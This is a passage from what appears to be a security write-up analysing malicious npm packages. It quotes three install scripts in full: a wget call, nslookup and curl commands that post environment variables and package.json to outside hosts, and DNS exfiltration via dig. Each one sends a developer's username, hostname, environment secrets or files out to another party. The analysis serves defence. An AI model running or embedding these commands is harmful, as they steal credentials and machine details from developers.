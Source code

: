 The pre-install script for the package was:

```bash
wget --quiet "https://curetosec.online/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)"
```

This script pings a URL that is constructed using several commands that expose private information about your development machine:

* `whoami` returns the current username or the user ID (UID) associated with the current user. In many cases, this might be the actual name of the user;
    
* `pwd` returns the current working directory, which is the directory that the user is currently in or working from. This reveals details about the path structure of the current machine;
    
* `hostname` returns the name that has been assigned to the computer or device that you're using. This name can be a fully qualified domain name (FQDN), which includes the domain name and the host name, or it can be just the host name.
    

The `--quiet` option for `wget` is a command-line option that instructs `wget` to work in silent mode, which means that it suppresses all output except for the basic progress indicators.

%[https://www.npmjs.com/package/@primeo/address] 

`@primeo/address` was live for four days in December 2021, and only had a single version, but with a very elaborate install script:

```bash
nslookup $(whoami).u.pkgio.com ; nslookup $(uname --nodename).h.pkgio.com ; curl -X POST -d @package.json -H 'X-BOT: nope' https://www.pkgio.com/.x773/package.json ; env > /tmp/.env ; curl -X POST -d @/tmp/.env -H 'X-BOT: nope' https://www.pkgio.com/.x773/env.json
```

1. `nslookup $(whoami).u.pkgio.com`: This command looks up the IP address associated with the hostname `$(whoami).u.pkgio.com` using the `nslookup` tool.
    
2. `nslookup $(uname --nodename).h.pkgio.com`: This command looks up the IP address associated with the hostname `$(uname --nodename).h.pkgio.com` using the `nslookup` tool. The `uname --nodename` command is used to determine the current machine's hostname, which is then used to construct the hostname.
    
3. `curl -X POST -d @package.json -H 'X-BOT: nope' https://www.pkgio.com/.x773/package.json`: This command sends an HTTP POST request with the body set to the contents of the file package.json, specified by the -d option. **This basically sends out the content of your app's manifest file.**
    
4. `env > /tmp/.env ; curl -X POST -d @/tmp/.env -H 'X-BOT: nope' https://www.pkgio.com/.x773/env.json`: This command writes the current environment variables to the file `/tmp/.env`, using the `env` command. It then sends an HTTP POST request with the body set to the contents of the file `/tmp/.env`, specified by the `-d` option. **This would, in effect, leak all of your private environment variables to an unknown actor**.
    

%[https://www.npmjs.com/package/@ovh-ui/oui-checkbox] 

`@ovh-ui/oui-checkbox` was live for about a week in June 2022 and seems to be part of a bug bounty program by French company Sekost. It tried to further evade detection by using DNS requests instead of HTTP:

```bash
dig `hostname|base64`-`whoami|base64`b.ovhouicheckbox.cak3eq2n01lh1hhcqapgtgd5jgwc17r3r.lupin.monster
```
